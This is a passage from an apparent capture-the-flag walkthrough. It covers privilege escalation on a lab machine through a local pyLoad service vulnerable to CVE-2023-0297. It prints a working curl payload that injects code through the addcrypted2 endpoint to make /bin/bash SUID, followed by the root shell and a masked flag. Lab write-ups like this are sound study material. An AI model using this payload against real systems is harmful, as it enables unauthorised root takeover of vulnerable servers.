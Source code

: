 ```
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
```

I attempted to run `curl` on the service and had the fortune of discovering that it's an HTTP site. The site's title is `pyLoad`. A Google search for `pyLoad exploit` directed me to a [repository](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) containing a proof-of-concept (PoC) exploit.
```
sau@pc:~$ curl localhost:8000/login                             

<!DOCTYPE html>                                                  <html lang="en">                                                                                                                 <head>                                                                                                                 
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>                                                   

[SNIP]

<title>Login - pyLoad </title>
```

I made slight modifications to the PoC, adding the `suid` bit to `/bin/bash` and incorporating the IP address.
```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

The exploit succeeded, granting me elevated privileges to root.
```
sau@pc:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash

sau@pc:~$ /bin/bash -p
bash-5.0# id
uid=1001(sau) gid=1001(sau) euid=0(root) groups=1001(sau)

bash-5.0# cat root.txt
7d5e5d****************
```
